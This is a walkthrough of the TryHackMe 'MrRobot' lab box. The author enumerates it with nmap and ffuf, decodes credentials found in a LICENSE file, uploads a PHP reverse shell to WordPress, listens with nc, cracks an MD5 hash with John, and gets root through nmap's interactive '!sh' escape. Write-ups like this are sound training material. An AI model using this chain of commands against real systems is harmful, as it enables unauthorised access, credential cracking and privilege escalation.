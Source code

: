 # 📝 Writeup – MrRobot (TryHackMe)

---

## TL;DR
Found WordPress on port 80/443, found creds in a `LICENSE` file, logged in, uploaded a PHP reverse shell (Pentest Monkey), popped a `daemon` shell, cracked `mrrobot`’s MD5 hash to get user creds, and escalated to root via `nmap --interactive` (GTFOBins). Quick and clean.

---

## ENUMERATION
Start with the usual:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Only ports of interest: `22`, `80`, `443`. Focused scan I used:

```bash
nmap -p 22,80,443 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:
![nmap](screenshots/mrrobot_scan.png)

---

## WEB / WORDPRESS (PORT 80 / 443)

I poked around: page source, `/robots.txt`, `/sitemap.xml`, README/LICENCE files, then ran a directory fuzz:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -t 10
```

Notes:

* `robots.txt` contained flag1 + a huge wordlist file (grab that — can be useful later).
* `LICENSE` had base64-encoded credentials (decode them: `echo <b64> | base64 -d`) — they worked on `/wp-login.php`. Bingo.

Screenshots:
![ffuf](screenshots/mrrobot_ffuf.png)
![robots](screenshots/mrrobot_robot.png)
![License](screenshots/mrrobot_license.png)

---

## GET SHELL — upload PHP webshell

Logged into WP with the creds found in `LICENSE`. Uploaded a PHP reverse shell (Pentest Monkey) as a page / plugin / media (depends how site is configured). Triggered it and got a shell as `daemon`.

Start your listener first:

```bash
nc -nvlp 4444
# then trigger the uploaded PHP page
```

Screenshot (upload):
![Upload\_shell](screenshots/mrrobot_wp_upload.png)

---

## daemon → mrrobot (user)

Found a hash for `mrrobot` in the home dir (raw MD5). Cracked it with John (or use online cracker):

```bash
# john approach
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show --format=raw-md5 hash.txt
```

After cracking, `su` or `ssh` to `mrrobot`:

```bash
su mrrobot
# or ssh mrrobot@<IP> if SSH keys/port available
```

Screenshot (john):
![john](screenshots/mrrobot_john.png)

---

## mrrobot → root (GTFOBins / nmap)

I checked `sudo -l`, SUIDs, cron, etc. Nothing obvious. Ran linpeas for help and noticed `nmap` installed — that’s the hint. GTFOBins documents that some builds of `nmap` have an interactive mode which allows spawning a shell.

Steps to abuse (as `mrrobot`):

1. Run interactive nmap:

```bash
nmap --interactive
```

2. At the `nmap>` prompt, request a shell:

```
nmap> !sh
```

That should drop you to a shell as root (depending on the binary and its permissions in the box — in this challenge it worked).

If `!sh` doesn’t work try:

```
nmap> !bash
```

After that, grab root flag:

```bash
cat /root/<flag>.txt
```

Screenshot (root):
![root](screenshots/mrrobot_root.png)

---

## Notes

* /robots -> tells search engines which directories are off limit
* /sitemap.xml -> layout of the site(directories/files etc)

---

## Commands recap (quick)

```bash
# enumerate
nmap -p 22,80,443 -sC -sV -oN scan.nmap <IP>

# fuzz
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -t 10

# decode base64 creds
echo "BASE64STRING" | base64 -d

# listener
nc -nvlp 4444

# crack md5
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# root with nmap
nmap --interactive
# then at prompt:
# nmap> !sh
```

---

## References

* GTFOBins — `nmap` interactive mode.
* Pentest Monkey — PHP reverse shell.

---

## Final words

MrRobot is a classic — find creds in weird places, upload a webshell, crack a hash, and use a GTFOBins trick to get root. Nice solid box for practicing web → user → root pivots.
